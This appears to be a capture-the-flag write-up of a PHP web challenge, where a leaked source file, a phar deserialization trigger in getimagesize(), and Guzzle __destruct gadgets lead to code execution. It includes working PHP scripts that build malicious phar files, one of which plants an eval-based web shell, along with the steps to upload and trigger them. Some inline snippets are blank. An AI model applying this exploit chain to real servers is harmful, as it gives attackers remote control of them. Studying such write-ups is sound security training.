



# web05 (Point: 370)



## TL;DR

**Phar Deserialization using getimagesize() to Rce.**

## Vulnerability

### Source code leak

Doing a view-source on page displays the location of source code `src.zip`.

### Phar deserialization

In fetchImage.php Line 123, we have this like
```
images[] = [
            'Src' => absoluteSource($element->src, $url), //  
            'Width' => $element->width,
            'Height' => $element->height,
        ];
...
foreach ($images as $imageInfo) {
    $image = $imageInfo['Src']; // get source
    ...
    list($width, $height) = getimagesize($image);
}
```

* So if we host a page on some server http://1.2.3.4/page.html, this code will look for all images in the page and do a getimagesize on it.
* So a image src like `` will take src `phar://../file` and `getimagesize('phar://../file')`. So that gets phar deserialization.


### Phar gadgets

So we have 2 contenders for phar gadget.(Just search for __destruct)
* FileCookieJar.php 
    ```
    public function __destruct()
    {
        $this->save($this->filename);
    }
    ```
* Fnstream.php
    ```
    public function __destruct()
    {
        if (isset($this->_fn_close)) {
            call_user_func($this->_fn_close);
        }
    }
    ```

### No proper check for valid image type

Server only checks if uploaded file have valid extension and mime type and nothing else.


### EXPLOIT

1. 1st we will use `Fnstream.php` to call `phpinfo()` and get Full path disclosure.
    ```
    namespace GuzzleHttp\Psr7 {
        
        class FnStream { public $_fn_close = "phpinfo"; }
        
        $phar = new \Phar("exp1.phar");
        
        $phar->startBuffering();
        $phar->addFromString("test.txt", "test");
        $phar->setStub("<?php __HALT_COMPILER();");
        
        $payload = new FnStream();
        $phar->setMetadata($payload);
        $phar->stopBuffering();
    }
    ``` 
    This will output `exp1.phar`.

2. Upload the `exp1.phar` to the app and note the path `upload/3a0a6pipr3vv0b3qkokbuf92f3/e45036cd2596c9daa1d8bd22.jpg`

3. Host an `test.html` on our server with contents:
    ```
        <html>
        <head></head>
        <body>
            
        </body>
        </html>
    ```
    and use the **Fetch From URL** functionality to fetch the url `http://1.2.3.4:9001/test.html`

    

4. Now we will use FileCookieJar destructor to obtain a full shell. Use the following code to generate exp2.phar and save it exp2.jpg

    ```
    <?php
    use GuzzleHttp\Client;
    include('vendor/autoload.php');
    ​
    $jar = new GuzzleHttp\Cookie\FileCookieJar('/app/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php', true);
    $jar->setCookie(new GuzzleHttp\Cookie\SetCookie([
        'Domain'  => 'ass',
        'Name'    => 'kek',
        'Value'   => '<?php eval($_GET[1]); ?>',
        'Discard' => false
    ]));
    ​
    $phar = new \Phar("exp2.phar");
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("<?php __HALT_COMPILER();");
    $phar->setMetadata($jar);
    $phar->stopBuffering();
    ```
 Follow the step 2,3 and 4 to upload and execute the phar and if successfull, you will have a shell at http://52.78.36.66/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php

 5. Read the flag

    http://52.78.36.66/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php?1=readfile("/flag.txt");


### FLag

WhiteHat{ph4r_d3_w1th_4_t1ny_b4ck_do0r_7fc88491}




